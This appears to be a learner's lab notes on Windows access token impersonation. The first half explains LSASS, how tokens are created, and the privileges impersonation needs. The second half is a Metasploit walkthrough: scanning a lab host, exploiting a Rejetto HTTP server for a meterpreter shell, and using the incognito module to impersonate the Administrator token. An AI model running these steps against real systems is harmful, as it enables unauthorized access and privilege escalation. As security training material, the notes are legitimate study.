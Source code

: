 Access Token Impersonation
#### Windows access token
- windows access tokens are a core element of the authentication process on windows and  are created and managed by the local Security Authority Subsystem service [LSASS]
- A windows access token is responsible for identifying and describing the security context of a process or thread running on a system.simple put,an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resources is accessed.
- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identify and privileges fo the user account assicated with the thread or process.This token is then attached to the userinit.exe process,after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
#### Windows Privileges
- The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been explited to gain initial access as well as the impersonation or delegation tokens available.
- The following are the privileges that are required for a successful impersonation attack.
- - SeAssignPrimary Token: This allows a user to impersonate tokens
- - SeCreateToken: This allows a user to create an arbitrary token with administrative privileges.
- - SelmpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges.
#### The Incognito Module
- Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.
- We can use the incognito module to display a list of available tokens that we can impersonate.

### Exploit
##### Initial access
- nmap 10.2.24.20 [ this show all the services]
- browse the http service and find service [ rejetto]
- service postgresql start
- msfconsole
- search rejetto
- use 0
- show options and set everything requires
- run
- this will give us meterpreter shell
#### privilege escalation
In meterpreter session
- sysinfo [ basic info about system ]
- pgrep explorer
- migrate 3512 [ here 3512 is a process ID of explorer ]
- getprivs [ this will list all the privileges of current user,here we find SeImpersonatePrivilege]
- load incognito [ this will load the incognito module,this will fail bcz we migrate our session] 
- run [ this will again run the exploit for initial access ]
- laod incognito
- list_tokens -u [ this will list all the user token ]
- impersonate_token "ATTACKDEFENSE\Administrator" [ here ATTACKDEFENSE\Administrator found from the previous command ]
- getprivs [ to get list of privileges and it will fail to list,so we need to migrate ]
- pgrep explorer [ for showing explorer process id ]
- migrate 2512 [ 2512 is process id ]
- getprivs [ now this will make list all the privileges ]
- getuid [ this will show user id ]

